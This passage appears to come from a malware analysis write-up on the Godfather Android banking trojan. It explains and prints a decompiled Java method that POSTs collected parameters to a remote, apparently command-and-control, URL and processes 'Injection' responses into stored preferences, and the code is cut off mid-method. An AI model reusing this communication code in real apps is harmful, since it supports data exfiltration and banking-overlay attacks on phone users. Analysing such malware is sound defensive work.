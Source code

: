 #### Undissuadably


{{< image src="img/2025-03-14-godfather-android-analysis/img15.png" caption="Figure 15 - Undissuadably Class" wrapper="text-center">}} 


It Initializes an OkHttpClient  object with different timeouts, constructs a FormBody using the parameters provided in the HashMap. Creates and sends HTTP POST request with the parameters.
If the response is valid and contains the string “Injection”,it  processes the response further, splits the result and invokes several functions, some of which appears to store values in SharedPreferences. Then it stores the result in the “obtainal” key.

```Java

public static String undissuadably(final Context context, String url, HashMap<String, String> params) {
    try {
        fiddlebow = new OkHttpClient();
        OkHttpClient.Builder builder = new OkHttpClient.Builder();
        TimeUnit timeUnit = TimeUnit.SECONDS;
        fiddlebow = builder
            .connectTimeout(50L, timeUnit)
            .writeTimeout(50L, timeUnit)
            .readTimeout(50L, timeUnit)
            .callTimeout(50L, timeUnit)
            .build();
        
        final FormBody.Builder builder2 = new FormBody.Builder();
        nonstylized = builder2;
        Objects.requireNonNull(builder2);
        
        params.forEach(new BiConsumer<String, String>() {
            @Override
            public void accept(String key, String value) {
                builder2.add(key, value);
            }
        });
        
        spekboom = nonstylized.build();
        
        Request build = new Request.Builder()
            .addHeader("Content-Type", "text/plain; charset=utf-8")
            .addHeader("Connection", "close")
            .url(url)
            .post(spekboom)
            .build();
        
        Custer = build;
        
        fiddlebow.newCall(build).enqueue(new Callback() {
            @Override
            public void onFailure(Call call, IOException e) {
            }
 
            @Override
            public void onResponse(Call call, Response response) throws IOException {
                String effluvias = "cn";
                if (response.isSuccessful()) {
                    try {
                        String res = response.body().string();
                        veepees.obtainal = res;
                        try {
                            if (!res.isEmpty()) {
                                veepees.obtainal = Tamarix.Uriiah(res);
                            }
```
